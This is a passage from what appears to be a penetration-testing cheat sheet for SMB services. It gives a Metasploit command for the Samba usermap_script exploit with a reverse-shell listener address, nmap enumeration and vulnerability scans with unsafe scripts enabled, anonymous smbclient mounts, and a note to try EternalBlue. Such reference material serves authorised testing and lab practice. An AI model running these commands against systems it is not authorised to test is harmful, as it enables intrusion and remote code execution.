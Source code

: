 MultiExploit

```text
msfconsole; use exploit/multi/samba/usermap_script; set lhost 10.10.14.x; set rhost $ip; run
```

#### Show all nmap SMB scripts

```text
ls -ls /usr/share/nmap/scripts/smb*
```

Quick enum:

```text
nmap --script=smb-enum* --script-args=unsafe=1 -T5 $ip
```

Quick vuln scan:

```text
nmap --script=smb-vuln* --script-args=unsafe=1 -T5 $ip
```

Full enum and vuln scanning:

```text
nmap --script=smb2-capabilities,smb-print-text,smb2-security-mode.nse,smb-protocols,smb2-time.nse,smb-psexec,smb2-vuln-uptime,smb-security-mode,smb-server-stats,smb-double-pulsar-backdoor,smb-system-info,smb-vuln-conficker,smb-enum-groups,smb-vuln-cve2009-3103,smb-enum-processes,smb-vuln-cve-2017-7494,smb-vuln-ms06-025,smb-enum-shares,smb-vuln-ms07-029,smb-enum-users,smb-vuln-ms08-067,smb-vuln-ms10-054,smb-ls,smb-vuln-ms10-061,smb-vuln-ms17-010,smb-os-discovery --script-args=unsafe=1 -T5 $ip
```

Full enum & vuln scan:

```text
nmap -p139,445 -T4 -oN smb_vulns.txt -Pn --script 'not brute and not dos and smb-*' -vv -d $ip
```

Mount:

```text
smbclient //$ip/share -U username
```

Anonymous mount:

```text
smbclient //$ip/share # hit enter with blank password
```

### Eternal Blue

Exploits a critical vulnerability in the SMBv1 protocol

{% hint style="success" %}
Worth testing Eternal blue - you might get lucky although \(the system should be patched to fix this\)
{% endhint %}

### Vulnerable versions
